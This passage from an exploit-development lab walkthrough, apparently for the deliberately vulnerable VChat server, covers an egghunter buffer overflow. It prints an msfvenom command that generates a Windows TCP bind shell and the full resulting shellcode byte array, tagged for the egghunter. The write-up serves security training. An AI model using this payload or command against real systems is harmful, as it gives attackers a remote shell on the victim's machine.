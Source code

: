 1. We also need a bind shell. This is a program that listens for connections on the target machine and provides a shell to anyone that makes a tcp connection to the port it is listening on. We can generate the shellcode with the following command.
	```sh
	$ msfvenom -p windows/shell_bind_tcp RPORT=4444 EXITFUNC=thread -f python -v SHELL -a x86 --platform windows -b '\x00\x0a\x0d'
	```
   * `msfvenom`: [Metasploit](https://docs.metasploit.com/docs/using-metasploit/basics/how-to-use-msfvenom.html) payload encoder and generator.
   * `-p windows/shell_bind_tcp`: Specify we are using the tcp bind shell payload for windows.
     * `RPORT=4444`: Specify the Receiving (Remote) port is 4444.
     * `EXITFUNC=thread`: Exit process, this is running as a thread.
     * `-f`: The output format.
       * `python`: Format for use in python scripts.
     * `-v`: Specify a custom variable name.
     * `SHELL`: Shell Variable name.
     * `-a x86`: Specify the target architecture as `x86`
     * `--platform windows`: Specify the target platform as Windows
     * `-b`: Specifies bad chars and byte values. This is given in the byte values.
       * `\x00\x0a\x0d`: Null char, carriage return, and newline.

2. Modify your exploit code to create a byte array representing the shellcode as shown in [exploit5.py](./SourceCode/exploit5.py), remember to prepend the *tag* repeated twice to the *bind* shellcode as this is what the EggHunter will use to identify the start of the shellcode and jump to it! Below is the shellcode used in the exploit file.
	```py
	SHELL = b"w00tw00t"      # The egghunter will look for this, w00t repeated twice.
	SHELL += b"\xb8\x9c\x02\xc9\x42\xda\xce\xd9\x74\x24\xf4\x5b"
	SHELL += b"\x29\xc9\xb1\x53\x31\x43\x12\x03\x43\x12\x83\x5f"
	SHELL += b"\x06\x2b\xb7\xa3\xef\x29\x38\x5b\xf0\x4d\xb0\xbe"
	SHELL += b"\xc1\x4d\xa6\xcb\x72\x7e\xac\x99\x7e\xf5\xe0\x09"
	SHELL += b"\xf4\x7b\x2d\x3e\xbd\x36\x0b\x71\x3e\x6a\x6f\x10"
	SHELL += b"\xbc\x71\xbc\xf2\xfd\xb9\xb1\xf3\x3a\xa7\x38\xa1"
	SHELL += b"\x93\xa3\xef\x55\x97\xfe\x33\xde\xeb\xef\x33\x03"
	SHELL += b"\xbb\x0e\x15\x92\xb7\x48\xb5\x15\x1b\xe1\xfc\x0d"
	SHELL += b"\x78\xcc\xb7\xa6\x4a\xba\x49\x6e\x83\x43\xe5\x4f"
	SHELL += b"\x2b\xb6\xf7\x88\x8c\x29\x82\xe0\xee\xd4\x95\x37"
	SHELL += b"\x8c\x02\x13\xa3\x36\xc0\x83\x0f\xc6\x05\x55\xc4"
	SHELL += b"\xc4\xe2\x11\x82\xc8\xf5\xf6\xb9\xf5\x7e\xf9\x6d"
	SHELL += b"\x7c\xc4\xde\xa9\x24\x9e\x7f\xe8\x80\x71\x7f\xea"
	SHELL += b"\x6a\x2d\x25\x61\x86\x3a\x54\x28\xcf\x8f\x55\xd2"
	SHELL += b"\x0f\x98\xee\xa1\x3d\x07\x45\x2d\x0e\xc0\x43\xaa"
	SHELL += b"\x71\xfb\x34\x24\x8c\x04\x45\x6d\x4b\x50\x15\x05"
	SHELL += b"\x7a\xd9\xfe\xd5\x83\x0c\x6a\xdd\x22\xff\x89\x20"
	SHELL += b"\x94\xaf\x0d\x8a\x7d\xba\x81\xf5\x9e\xc5\x4b\x9e"
	SHELL += b"\x37\x38\x74\xb1\x9b\xb5\x92\xdb\x33\x90\x0d\x73"
	SHELL += b"\xf6\xc7\x85\xe4\x09\x22\xbe\x82\x42\x24\x79\xad"
	SHELL += b"\x52\x62\x2d\x39\xd9\x61\xe9\x58\xde\xaf\x59\x0d"
	SHELL += b"\x49\x25\x08\x7c\xeb\x3a\x01\x16\x88\xa9\xce\xe6"
	SHELL += b"\xc7\xd1\x58\xb1\x80\x24\x91\x57\x3d\x1e\x0b\x45"
	SHELL += b"\xbc\xc6\x74\xcd\x1b\x3b\x7a\xcc\xee\x07\x58\xde"
	SHELL += b"\x36\x87\xe4\x8a\xe6\xde\xb2\x64\x41\x89\x74\xde"
	SHELL += b"\x1b\x66\xdf\xb6\xda\x44\xe0\xc0\xe2\x80\x96\x2c"
	SHELL += b"\x52\x7d\xef\x53\x5b\xe9\xe7\x2c\x81\x89\x08\xe7"
	SHELL += b"\x01\xa9\xea\x2d\x7c\x42\xb3\xa4\x3d\x0f\x44\x13"
	SHELL += b"\x01\x36\xc7\x91\xfa\xcd\xd7\xd0\xff\x8a\x5f\x09"
	SHELL += b"\x72\x82\x35\x2d\x21\xa3\x1f"
	```
3. Generate shellcode packet (Python). Due to the structure of the VChat server and how it handles connections, our packet containing the *bind* shellcode is a bit more complicated.
   * In some walkthroughs, they do not perform any additional overflows. This is because the original Vulnserver contains memory leaks of sufficient size, where the received data is allocated on the heap and **is not** de-allocated with a `free()` call.